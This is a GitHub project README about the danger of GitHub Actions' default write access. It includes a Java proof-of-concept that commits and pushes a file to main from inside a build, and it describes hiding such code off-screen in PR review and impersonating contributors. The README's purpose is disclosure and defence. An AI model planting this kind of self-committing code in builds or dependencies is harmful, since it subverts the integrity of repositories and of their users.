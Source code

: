 # Musical-Okto-Carnival

GitHub actions by default allow any code executed as part of the action, except
when running as part of a PR from a forked repository, to commit changes to the
main branch. This is exceedingly dangerous and could allow the introduction of
malicious code into the source code repositories of widely used software.

GitHub provides repository owners a lot of control over what GitHub Actions
have access to; this has only been strengthend in recent months due to
[BitCoin mining attacks](https://www.coindesk.com/hackers-mined-crypto-on-githubs-servers-report).
However, by default an action running on a non-forked branch has write access
to the respository.

## Attacking Repositories on GitHub

Imagine a scenario where a maintainer of a widely used OSS package goes rogue
and decides they want to start spreading malicious code. For instance, if the
primary maintainer of [OWASP dependency-check](https://github.com/jeremylong/DependencyCheck)
decided to abuse the trust so many users have given the tool over the years.
What if the following code were introduced and called as part of the execution
of dependency-check:

```java
    private void provideWarning() {
        String ref = getEnv("GITHUB_REF", "");
        boolean isAction = Boolean.parseBoolean(getEnv("GITHUB_ACTIONS", "false"));
        boolean notPR = getEnv("GITHUB_HEAD_REF", "").isEmpty();
        boolean isMain = "refs/heads/main".equals(ref);
        boolean isMaster = "refs/heads/master".equals(ref);
        java.io.File f = new java.io.File("warning.md");

        if (isAction && notPR && (isMain || isMaster) && !f.exists()) {
            try (java.io.FileWriter writer = new java.io.FileWriter(f);
                    java.io.BufferedWriter out = new java.io.BufferedWriter(writer)) {
                out.write("Warning\n");
                out.write("=======\n\n");
                out.write("Branch protection is not enabled and GitHub Actions has the\n");
                out.write("ability to write to the repository. Any action or code executed\n");
                out.write("during the build, even code in third party dependencies called\n");
                out.write("during testing, could subvert the integrity of your project.\n\n");
                out.write("See [Disabling or limiting GitHub Actions for a repository]");
                out.write("(https://docs.github.com/en/actions/reference/environment-variables#default-environment-variables) ");
                out.write("for more information on how to protect you repository.");
                out.flush();
                out.close();
            } catch (java.io.IOException ex) {
                //ignore
            }
            exec("git config user.email \"actions@github.com\"");
            exec("git config user.name \"GitHub Actions\"");
            exec("git add warning.md");
            exec("git commit -m \"warning\" warning.md");
            if (isMain) {
                exec("git push origin main");
            } else {
                exec("git push origin master");
            }
        }
    }
    // The rest of the code is trivial helper functions used to make the example above more concise.
    private String getEnv(String name, String def) {
        String ret = System.getenv(name);
        if (ret == null) {
            ret = def;
        }
        return ret;
    }

    private void exec(String cmd) {
        try {
            Runtime run = Runtime.getRuntime();
            Process pr = run.exec(cmd);
            Thread in = new ProcessReader(pr.getInputStream());
            Thread err = new ProcessReader(pr.getErrorStream());
            in.start();
            err.start();
            if (pr.isAlive()) {
                pr.waitFor();
            }
            in.join();
            err.join();
        } catch (java.io.IOException | InterruptedException ex) {
            //ignore
        }
    }

    static class ProcessReader extends Thread {
        java.io.InputStream inputStream;
        byte[] buffer = new byte[1024];

        ProcessReader(java.io.InputStream inputStream) {
            this.inputStream = inputStream;
        }

        @Override
        public void run() {
            try {
                int read;
                do {
                    read = inputStream.read(buffer);
                } while (read != -1);
            } catch (java.io.IOException ex) {
                //ignore
            }
        }
    }
```

The above code example is lengthy for completness - but at its core it simply:

1. Validates that it is running as a GitHub Action running on the `main` or
   `master` branch.
2. If it is in the correct execution context it then writes a `warning.md`
   file into the root of the repository.
3. The `warning.md` is then added to git, committed to git, and then pushed
   to the `main` or `master` branch.

While the example is mostly harmless, it demonstrates how dangerous the default
permissions can be. One could add or modify code within the repository and the
commits could impersonate one of the contributers (all you need is their email
address) instead of the above code just using `actions@github.com`. Detecting
the introduction of the injected code could be difficult. A real attacker could
even check if the code was executing right after a merge event so maintainers
would have to do a pull anyway before being able to update.

The example code above could be introduced into any dependency, GitHub Action
from the marketplace, or really any code that is executed withinva GitHub
Action. Imagine the number of repositories that could be compromised if code
like the example above were introduced into JUnit or other testing framework.

## In Action

### Act 1

To see the payload in action, the code was added in
[PR #1](https://github.com/jeremylong/musical-octo-carnival/pull/1).

When run as part of the build of main the repository now has a `warning.md`.

As the PR indicates, the "attack" was done in plain site. There are numerous
was to mask the attack. The easiest would be to include a subverted dependency;
one could even create a look-a-like/typo squated dependency to make it easier
to introduce the code.

### Act 2

With [PR #2](https://github.com/jeremylong/musical-octo-carnival/pull/2) the
"malicious" code was cleaned up and the `warning.md` removed. Who needs that
cumbersome branch protection.

### Act 3

In Act 3 / [PR #3](https://github.com/jeremylong/musical-octo-carnival/pull/3)
the "malicious" code was re-introduced. This time discussed and completely
missed during the peer review due to the Unified view not have any indication
that there is code way off on the right starting at character 160. See the PR
for the example. This is just another way malicious code can be introduced.

If programming in a language that allows - it is recommended to use the "Split"
view when reviewing a PR. Alternatively, use a tool like Checkstyle with a line
length check enabled and anotate your PRs with the
[Violations-to-GitHub-Comment](https://github.com/tomasbjerre/violation-comments-to-github-command-line)
utility. The OWASP dependency-check project uses the violations maven plugin;
[example here](https://github.com/jeremylong/DependencyCheck/blob/fc010a869aee54d7fd0357a95f9c5b2da2597363/.github/workflows/pull_requests.yml#L31).


## Solutions

GitHub already has (almost) everything in place a user needs to secure their
repositories. Repository owners can enable branch protection or change the
default permissions on Actions to be read-only via the workflow yaml or using
a personal access token.

The recent introduction of [AllStars](https://github.com/ossf/allstar/blob/main/quick-start.md)
is awesome! AllStars will examine an organization or repository and alert
if any issues are discovered. However, tools like AllStars require users to
opt-in. As anyone in security knows when you start asking people to opt-in
you are doomed to fail. With AllStars we aren't just asking them to opt-in
to security, but we are asking them to opt-in just for a notification.

The best solution would be to make Actions secure by default. This could be
done by changing the default permission level for GitHub Actions read-only.
Making this change would obviously be difficult as it would end up breaking
a lot of builds. However, the default GitHub Action permissions on all new
repositories created should be made read-only. In order to do this GitHub
would need to introduce a way to control the default permissions beyond
just those for Pull Requests from forked repositories; currently the only
way to make an Action read-only is to provide a limited access token or
to use the `permissions` tag in the yaml. In most cases, Actioms do not
need the ability to write to a repository and for those that do one can
simply add the write permission in the yaml defining the Action.

Another solution available to GitHub would be to move the functionality of
AllStars from an Action in the Marketplace to an integral part of GitHub
just like was done with dependabot. As such, all repository owners could
be alerted, just like dependabot, if their repository is setup insecurely.
The warnings could be displayed only to the repository owners and provide
two buttons to assist with resolution:

1. Enable Branch Protection
2. Change Default Permissions to read-only

## End Scene

In summary, for now use [AllStars](https://github.com/ossf/allstar/blob/main/quick-start.md)
and secure your GitHub repos. When performing Peer Review - consider using
the `Split` view or using some other tool to detect long lines.
